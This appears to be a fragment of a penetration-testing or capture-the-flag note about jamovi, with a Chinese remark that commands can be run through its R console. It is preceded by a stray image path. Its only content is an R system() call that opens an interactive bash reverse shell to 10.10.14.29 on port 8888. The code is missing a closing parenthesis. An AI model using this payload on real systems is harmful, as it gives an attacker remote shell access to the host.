 # jamovi

在r处可以执行命令

```bash
# summary(data[1:3])
system ("bash -c 'bash -i  >& /dev/tcp/10.10.14.29/8888 0>&1'" , intern = TRUE
```

